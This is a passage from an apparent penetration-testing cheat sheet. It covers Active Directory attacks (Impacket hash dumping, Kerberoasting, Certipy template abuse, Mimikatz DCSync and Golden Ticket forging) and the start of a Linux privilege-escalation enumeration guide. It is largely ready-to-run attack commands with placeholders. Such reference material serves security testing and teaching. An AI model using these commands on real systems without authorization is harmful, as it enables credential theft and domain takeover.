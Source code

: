     # Dump all hashes with secretsdump
    impacket-secretsdump <DOMAIN>/<USER>:<PASSWORD>@<TARGET_IP>
    # Kerberoast with GetUserSPNs
    impacket-GetUserSPNs -request -dc-ip <DC_IP> <DOMAIN>/<USER>
    ```
* **Certipy (AD CS Abuse):**
    ```bash
    # Find vulnerable certificate templates
    certipy find -u <USER>@<DOMAIN> -p '<PASSWORD>' -dc-ip <DC_IP> -vulnerable
    ```

---

#### **4. Domain Dominance & Persistence**
* **Mimikatz (DCSync & Golden Tickets):**
    ```powershell
    # Perform a DCSync attack to get the krbtgt hash
    lsadump::dcsync /domain:corp.local /user:krbtgt
    # Forge a Golden Ticket to impersonate the Administrator
    kerberos::golden /user:Administrator /domain:corp.local /sid:<DOMAIN_SID> /krbtgt:<KRBTGT_HASH> /ptt
    ```
---
---

## <a name="linux-privilege-escalation"></a>3. Linux Privilege Escalation

This section covers techniques for elevating privileges on a Linux system.

### <a name="linux-privilege-escalation-ultimate-guide"></a>Linux Privilege Escalation Ultimate Guide (All Parts Combined)

This guide provides a comprehensive methodology for Linux privilege escalation, covering a wide range of basic, advanced, and niche techniques.

#### **1. Advanced Enumeration & Situational Awareness**

Advanced exploitation requires advanced enumeration.

* **Core System & User Info:**
    ```bash
    id
    whoami
    sudo -l
    uname -a
    cat /etc/os-release
    ps aux
    netstat -tulpn
    ```
* **Live Process Monitoring with pspy:**
    ```bash
    ./pspy64 -pf -i 1000
    ```
* **Deep Filesystem & Credential Analysis:**